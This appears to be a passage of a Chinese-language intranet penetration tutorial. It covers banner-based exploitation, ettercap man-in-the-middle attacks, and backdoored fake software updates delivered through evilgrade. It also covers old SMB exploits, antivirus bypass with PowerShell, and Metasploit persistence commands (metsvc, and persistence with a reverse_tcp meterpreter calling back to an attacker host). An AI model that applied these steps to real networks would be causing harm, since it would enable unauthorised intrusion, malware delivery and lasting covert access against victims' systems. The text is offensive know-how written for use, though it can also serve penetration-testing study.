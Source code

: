 *   对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
    
*   中间人攻击
    

常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm

也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网

![image](http://drops.javaweb.org/uploads/images/ff9c5dd4cfdd1b70c57507e188fcabfc29609767.jpg)

![image](http://drops.javaweb.org/uploads/images/7b9e2f8770951dffa0d6475de780c4f3bf8b53f4.jpg)

简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了

![image](http://drops.javaweb.org/uploads/images/95454569a62e7d8961141d51944aef1894c56e36.jpg)

*   常见服务漏洞攻击
    
    smb/ms08067/ipc$/NetBIOS…………
    

但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样

比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AV[Powershell tricks::Bypass AV](http://drops.wooyun.org/tips/3353)

0x04 后渗透准备和扩大战果
===============

* * *

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的

1. 后门准备
-------

* * *

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求

普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门

msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)

通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务

```
meterpreter > run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit

```

通过启动项的利用方式：

```
meterpreter > run persistence -X -i 10 -p port -r hostip

use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```
